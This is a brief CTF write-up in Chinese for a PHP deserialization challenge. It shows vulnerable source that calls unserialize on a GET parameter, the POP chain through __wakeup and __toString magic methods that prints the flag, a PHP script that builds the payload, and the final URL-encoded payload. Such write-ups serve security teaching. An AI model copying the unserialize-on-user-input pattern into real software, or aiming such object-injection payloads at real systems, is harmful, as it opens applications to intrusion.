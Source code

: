 ~~~
<?php
include "flag.php";
highlight_file(__FILE__);

class Moon{
        public $name="月亮";
        public function __toString(){
                return $this->name;
        }
        public function __wakeup(){
                echo "我是".$this->name."快来赏我";
        }
}

class Ion_Fan_Princess{
        public $nickname="牛夫人";

        public function call(){
                global $flag;
                if ($this->nickname=="小甜甜"){
                        echo $flag;
                }else{
                        echo "以前陪我看月亮的时候，叫人家小甜甜！现在新人胜旧人，叫人家".$this->nickname."。\n";
                        echo "你以为我这么辛苦来这里真的是为了这条臭牛吗?是为了你这个没良心的臭猴子啊!\n";
                }
        }
        public function __toString(){
                $this->call();
                return "\t\t\t\t\t\t\t\t\t\t----".$this->nickname;
        }
}

if (isset($_GET['code'])){
        unserialize($_GET['code']);

}else{
        $a=new Ion_Fan_Princess();
        echo $a;
}
~~~

简单的反序列化pop链：
Moon::__wakeup()==>Ion_Fan_Princess::__toString()==>Ion_Fan_Princess::call()

payload:
~~~
<?php
class Moon{
        public $name;
}
class Ion_Fan_Princess{
        public $nickname;
}

$a=new Moon();
$a->name=new Ion_Fan_Princess();
$a->name->nickname="小甜甜";
echo urlencode(serialize($a));
~~~

payload:?code=O%3A4%3A"Moon"%3A1%3A%7Bs%3A4%3A"name"%3BO%3A16%3A"Ion_Fan_Princess"%3A1%3A%7Bs%3A8%3A"nickname"%3Bs%3A9%3A"小甜甜"%3B%7D%7D
